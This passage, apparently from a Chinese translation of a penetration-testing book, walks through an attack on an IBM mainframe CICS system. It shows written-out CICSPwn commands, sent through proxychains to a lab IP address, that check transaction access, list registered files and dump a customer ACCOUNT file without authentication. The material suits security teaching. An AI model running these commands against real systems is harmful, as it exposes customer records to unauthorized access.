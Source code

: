 ```text
FrontGun > proxychains python cicspwn.py 10.10.40.33 23 -a CUST1 -i
```

![](.gitbook/assets/17.cicspwn.jpg)

事实证明我们确实可以访问CEMT和CECI……那么，让我们开始进入主题，列出当前在CICS中注册的文件:

```text
FrontGun > proxychains python cicspwn.py 10.10.40.33 23 -a CUST1 -f
```

![](.gitbook/assets/18.reg.jpg)

我们认出了一些我们之前看到的档案。通过通过CICSPwn查看它们，我们避免了前面处理的转换问题:

```text
10.10.20.118 > python cicspwn.py 10.10.40.33 23 -a CUST1 -–get-file ACCOUNT
```

![](.gitbook/assets/19.listfiles.jpg)

CICSPwn在文件上设置正确的选项（打开、可读和启用），然后几乎神奇地显示整个内容.

不可置信，在最不可能被攻破的机器上客户记录完全没有认证。

内心好奇的黑客想知道是否可以更进一步，执行代码，提升权限…。是的，CICSPwn提供了一组漂亮的选项，但是您必须自己阅读这些选项，因为我们已经彻底拿下了靶标系统！

> 翻译：Ryan 2019/8/16

